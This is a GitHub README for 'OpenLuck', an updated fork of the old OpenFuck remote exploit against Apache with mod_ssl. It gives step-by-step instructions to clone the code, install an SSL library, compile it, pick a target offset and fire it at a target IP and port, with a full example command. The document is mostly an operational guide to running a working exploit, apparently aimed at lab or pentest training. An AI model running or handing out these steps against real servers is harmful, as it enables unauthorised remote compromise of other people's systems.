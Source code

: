 # OpenLuck
Original is OpenFu*&%$#, I change for something more elegant

## Usage

This Exploit (https://www.exploit-db.com/exploits/764/) is outdated. Here you can take updated

1. Download OpenFuck.c
```
git clone https://github.com/melbinkm/OpenLuck.git
```
2. Install ssl-dev library

```
apt-get install libssl-dev
```

3. It's Compile Time

````
gcc -o OpenFuck OpenFuck.c -lcrypto
````

4. Running the Exploit
```
./OpenFuck
```

5. See which service you witch to exploit. For example if you need to Red Hat Linux, using apache version 1.3.20. Trying out using the 0x6a option
./OpenFuck 0x6a [Target Ip] [port] -c 40

for example:
```
./OpenFuck 0x6a 192.168.80.145 443 -c 40
```

**References:**
https://kongwenbin.wordpress.com/tag/openfuck/
https://medium.com/@javarmutt/how-to-compile-openfuckv2-c-69e457b4a1d1
